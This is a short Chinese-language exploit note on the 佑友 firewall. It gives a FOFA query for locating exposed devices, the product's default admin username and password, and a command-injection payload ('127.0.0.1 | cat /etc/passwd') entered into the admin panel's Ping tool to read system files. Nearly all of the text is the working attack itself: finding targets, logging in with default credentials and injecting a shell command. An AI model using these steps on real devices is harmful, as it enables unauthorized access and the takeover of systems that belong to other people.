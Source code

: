 FOFA
----

    title="佑友防火墙"

默認帳號密碼
------------

    User: admin
    Pass: hicomadmin

漏洞利用
--------

登錄後台 系統管理 --\> 維護工具 --\> Ping

目的地址：

    127.0.0.1 | cat /etc/passwd